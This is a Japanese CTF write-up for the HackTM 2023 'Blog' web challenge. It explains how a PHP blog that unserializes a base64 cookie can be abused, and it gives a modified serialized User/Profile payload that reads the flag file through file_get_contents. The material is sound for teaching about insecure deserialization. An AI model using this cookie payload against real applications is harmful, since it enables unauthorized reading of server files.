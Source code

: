 # HackTM CTF Quals 2023 

## [Web] Blog (50 pts, 161 solves)

シンプルなブログの Web サービスが題材の問題。

提供される `Dockerfile` より FLAG は `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt` に存在することがわかっているので、この内容を読み出す必要がある。

```dockerfile
FROM php:8.0-apache

COPY ./chal/html /var/www/html
COPY ./chal/db /sqlite3/db
COPY ./chal/flag.txt /02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt
RUN chmod -R 777 /sqlite3/
RUN chmod -R 777 /var/www/html/
```

`index.php` を開くと下記のような PHP のコードが目につく。Cookie `user` がリクエストに設定されていれば、その内容を Base64 デコードした上で `unserialize` している。

```php
<?php
include("util.php");
if (!isset($_COOKIE["user"])) {
    header("Location: /login.php");
    die();
} else {
    $user = unserialize(base64_decode($_COOKIE["user"]));
}
?>
...
```

ここで `login.php` より、Cookie `user` には `util.php` で定義された `User` クラスのインスタンスが `serialize` された上で Base64 形式で格納されていることがわかる。

```php
<?php
...
        $user = new User($username);
        setcookie("user", base64_encode(serialize($user)));
...
?>
```

下記より、`User` は `Profile` クラスを内部に保持するクラスである。ここで、`Profile` クラスの `$picture_path` が `file_get_contents` に渡されている。本来であればこのプロパティの値は変更できないが、Insecure Deserialization を活用すれば変更することができそうである。

```php
class User {
    public $profile;
    public $posts = array();

    public function __construct($username) {
        $this->profile = new Profile($username);
    }

    // get user profile
    public function get_profile() {
        // some dev apparently mixed up user and profile... 
        // so this check prevents any more errors
        if ($this->profile instanceof User) {
            return "@i_use_vscode please fix your code";
        } else {
            // quite unnecessary to assign to a variable imho
            $profile_string = "
            <div>{$this->profile}</div>
            ";
            return $profile_string;
        }
    }

    public function get_posts() {
        // check if we've already fetched posts before to save some overhead
        // (our poor sqlite db is dying)
        if (sizeof($this->posts) !== 0) {
            return "Please reload the page to fetch your posts from the database";
        }

        // get all user posts
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select title, content from posts where user = :user",
            array(":user" => $this->profile->username)
        ));

        // get posts from database
        $result = $conn();
        if ($result[0] !== false) {
            while ($row = $result[0]->fetchArray(1)) {
                $this->posts[] = new Post($row["title"], $row["content"]);
            }
        }

        // build the return string
        $out = "";
        foreach ($this->posts as $post) {
            $out .= $post;
        }
        return $out;
    }

    // who put this?? git blame moment (edit: i checked, it's @i_use_vscode as usual)
    public function __toString() {
        $profile = $this->profile;
        return $profile();
    }
}

class Profile {
    public $username;
    public $picture_path = "images/real_programmers.png";

    public function __construct($username) {
        $this->username = $username;
    }

    // hotfix for @i_use_vscode (see line 97)
    // when removed, please remove this as well
    public function __invoke() {
        if (gettype($this->picture_path) !== "string") {        
            return "<script>window.location = '/login.php'</script>";
        }

        $picture = base64_encode(file_get_contents($this->picture_path));

        // check if user exists
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select id from users where username = :username",
            array(":username" => $this->username)
        ));
        $result = $conn();
        if ($result[0] === false || $result[0]->fetchArray() === false) {
            return "<script>window.location = '/login.php'</script>";
        } else {
            return "
            <div class='card'>
                <img class='card-img-top profile-pic' src='data:image/png;base64,{$picture}'> 
                <div class='card-body'>
                    <h3 class='card-title'>{$this->username}</h3>
                </div>
            </div>
            ";
        }
    }

    // this is the correct implementation :facepalm:
    public function __toString() {
        if (gettype($this->picture_path) !== "string") {        
            return "";
        }

        $picture = base64_encode(file_get_contents($this->picture_path));

        // check if user exists
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select id from users where username = :username",
            array(":username" => $this->username)
        ));
        $result = $conn();
        if ($result[0] === false || $result[0]->fetchArray() === false) {
            return "<script>window.location = '/login.php'</script>";
        } else {
            return "
            <div class='card'>
                <img class='card-img-top profile-pic' src='data:image/png;base64,{$picture}'> 
                <div class='card-body'>
                    <h3 class='card-title'>{$this->username}</h3>
                </div>
            </div>
            ";
        }
    }
}
```

Cookie `user` を Base64 デコードすると下記の内容が得られる。

```text
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:7:"tsubasa";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

この `s:27:"images/real_programmers.png"` が前述の `$picture_path` の値に該当する箇所である。これを FLAG のパスに置き換えて Cookie にセットした上でアクセスすると、本来は画像が表示される箇所に Base64 エンコードされた FLAG が格納されていることが確認できる。

なお、シリアライズされたプロパティを編集する際は、文字列長 (`27` の部分) も適宜変更する必要がある。

```text
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:7:"tsubasa";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```
